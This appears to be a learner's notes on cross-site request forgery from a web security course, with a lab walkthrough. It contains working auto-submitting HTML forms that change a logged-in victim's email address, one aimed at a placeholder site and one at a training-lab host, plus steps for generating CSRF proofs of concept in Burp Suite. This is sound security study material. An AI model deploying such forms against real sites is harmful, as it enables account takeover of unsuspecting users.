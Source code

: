  With these conditions in place, the attacker can construct a web page containing the following HTML:
 
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

 If a victim user visits the attacker's web page, the following will happen:

- The attacker's page will trigger an HTTP request to the vulnerable website.
- If the user is logged in to the vulnerable website, their browser will automatically include their session cookie in the request (assuming SameSite cookies are not being used).
- The vulnerable website will process the request in the normal way, treat it as having been made by the victim user, and change their email address.

**Note**
Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

# How to construct a CSRF attack

Manually creating the HTML needed for a CSRF exploit can be cumbersome, particularly where the desired request contains a large number of parameters, or there are other quirks in the request. The easiest way to construct a CSRF exploit is using the CSRF PoC generator that is built in to Burp Suite Professional:

- Select a request anywhere in Burp Suite Professional that you want to test or exploit.
- From the right-click context menu, select Engagement tools / Generate CSRF PoC.
- Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
- You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
- Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

## LAB

![](../images/Pasted%20image%2020241001171625.png)
For this lab, since I do not have Burp pro edition, I will go for the community solution, for example, I created my own **CSRF** code for this lab:

```html
<html></html>
    <body>
        <form action="https://0a4e0039034ff4a583cc1ef500f10015.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@user.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
